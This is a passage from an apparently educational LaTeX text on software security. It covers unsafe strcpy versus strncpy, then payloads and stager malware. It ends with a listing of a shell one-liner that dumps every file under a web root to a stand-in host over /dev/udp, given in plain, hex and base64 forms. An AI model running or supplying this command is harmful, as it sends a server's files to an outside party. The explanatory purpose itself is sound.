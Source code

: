 Strcpy() takes two arguments, destination and source. There is no built in limitation on how much it stores, and is therefore vulnerable. It is particularly vulnerable because this is in conjunction with variable values, which are often dictated by user input. 

A better solution would be to use strncpy. \citep{strncpy} It takes an extra argument which ensures that the copied string can only be a given length from the source. Newer versions of strcpy have protections, but it is entirely dependant on the one used. \citep{strcpy}

\begin{tcblisting}{listing only}
Insecure:
strcpy(var2, var1);

More secure:
strncpy(var2, var1, sizeof(var2)); 
\end{tcblisting}

This is a very in depth topic, that is somewhat out of scope, beyond this.


\section{Payload vs Shellcode}
Malware is nothing without some form of code execution. Program code allows for malicious actors to conduct a given task, however, this cannot always be baked into the malware itself.
It is common for malware to follow 'stager' behaviour,  it would download the majority of the malicious code from a remote server. Another avenue is for the malware 'payload' to be obfuscated, compressed and then
injected into a victim by exploiting a given vulnerability. The payload is then executed, and any number of results can come of it. Payloads often come under a few categories:


\begin{lstlisting}[label=payload,caption=Explicit HTML Scraper Payload]

cd /var/www/html; find . -type f -exec cat {} \; > /dev/udp/example.com/80;

Payload (Hex & Base64):
\x63\x64\x20\x2f\x76\x61\x72\x2f\x77\x77\x77\x2f\x68\x74\x6d\x6c\x3b\x20\
x66\x69\x6e\x64\x20\x2e\x20\x2d\x74\x79\x70\x65\x20\x66\x20\x2d\x65\x78\x
65\x63\x20\x63\x61\x74\x20\x7b\x7d\x20\x5c\x3b\x20\x3e\x20\x2f\x64\x65\x7
6\x2f\x75\x64\x70\x2f\x65\x78\x61\x6d\x70\x6c\x65\x2e\x63\x6f\x6d\x2f\x38
\x30\x3b

Y2QgL3Zhci93d3cvaHRtbDsgZmluZCAuIC10eXBlIGYgLWV4ZWMgY2F0IHt9IFw7ID4gL2Rld
i91ZHAvZXhhbXBsZS5jb20vODA7

\end{lstlisting}

